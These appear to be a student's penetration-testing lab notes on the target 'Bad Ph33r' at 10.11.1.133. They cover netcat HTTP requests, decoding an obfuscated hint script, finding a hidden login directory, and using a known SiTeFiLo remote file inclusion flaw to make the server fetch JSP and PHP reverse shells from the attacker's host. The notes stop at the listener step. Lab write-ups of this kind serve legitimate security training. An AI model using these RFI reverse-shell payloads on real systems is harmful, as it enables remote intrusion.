








Attack Vector 14 - Bad Ph33r

Attack Vector 14 - Bad Ph33r

Explore more netcat... we get a bad request if we just do like this:

But we get the source code if if use User-Agent curl:
`printf "GET / HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: curl/7.68.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`

A bunch of pages redirect to test.asp. There is referene to a hidd3n-script...

Aha! The hidd3n-script
`printf "GET /hidd3n-script HTTP/1.1\r\nHost: 10.11.1.133\r\nUser-Agent: curl/7.68.0\r\nAccept: */*\r\n\r\n" | sudo nc 10.11.1.133 80`

Decode the script! Used HexDecoder website. `http://ddecode.com/hexdecoder/?results=b9248126e067728365cc4725f8235294`

var _0x5490=["length"," ","offsecphun1.gif","offsecphun2.png","getSeconds","floor","","write","offsecphun5.bmp","d6467e109c1606ed29","-","1f2e73705207bd","21213/"];var sillydate=0;var sillyvar=0;function StringArray(_0x5b7ex4) {this[_0x5490[0]]=_0x5b7ex4;for (var _0x5b7ex5=1;_0x5b7ex5 <= _0x5b7ex4;_0x5b7ex5++) {this[_0x5b7ex5]=_0x5490[1];};};image=new StringArray(10);image[0]=_0x5490[2];image[1]=_0x5490[3];image[2]=_0x5490[2];image[3]=_0x5490[3];image[4]=_0x5490[2];image[5]=_0x5490[3];image[6]=_0x5490[2];image[7]=_0x5490[3];image[8]=_0x5490[3];image[9]=_0x5490[3];var ran=60/image[_0x5490[0]];function _0x5491() {sillydate=new Date();sillyvar=sillydate[_0x5490[4]]();sillyvar=Math[_0x5490[5]](sillyvar/ran);return (image[sillyvar]);};function _0x5499(_0x4499) {var hmmmm=document.createElement("img");hmmmm.src="/"+_0x4499;document.body.appendChild(hmmmm);}//_0x5499(_0x5490[12]+_0x5490[10]+_0x5490[11]+_0x5490[13]+_0x5491());

What is this? An open UDP port 8696... error in pasting??

[Javascript code deobfuscator](http://codeamaze.com/code-beautifier/javascript-deobfuscator)

Here is the deobfuscated script **Problem! Using this strips the first array, so essetially this is unusable**
[unhidd3n-script.js](../../../_resources/dd4764d2de694d048e2e6c317bef54aa.js)

Manually, I replaced all the hex strings using this site [Hex to Ascii](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

This link was helpful
[How to build software](https://www.howtobuildsoftware.com/index.php/how-do/bWBX/%E2%80%9C)

The hidd3n-script after I converted the hex manually:
[hidd3n-script](../../../_resources/f742aed1181445238b313979ce4490de.133hidd3)

Tried inputting the offsecphun5.bmp
this got redirected to
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/1.jpeg`

But the directory shows a login page:
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/`

The source code for 
`view-source:http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/index.asp`

# Search for slogin_POST_username and slogin_POST_password
## Google search for slogin_post_username:
[Simple Text-File Login script (SiTeFiLo) 1.0.6 - File Disclosure / Remote File Inclusion](https://www.exploit-db.com/exploits/7444)

## Searchsploit had nothing for slogin
`searchsploit slogin`

`searcshploit sitefilo`

### Does the file exist? I think so...
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php`

### The RFI exploit should be like this:
[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]

The slog_users.txt is there!
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slog_users.txt`

Tried a jsp reverse shell... didn't quite work.
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/jsp-reverse.jsp?`

Looking at the above output... perhaps php is better. Using the reverse shell from /usr/share/wordlist
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slogin_lib.inc.php?slogin_path=http://192.168.119.214/php-reverse-shell.php?`

The listener

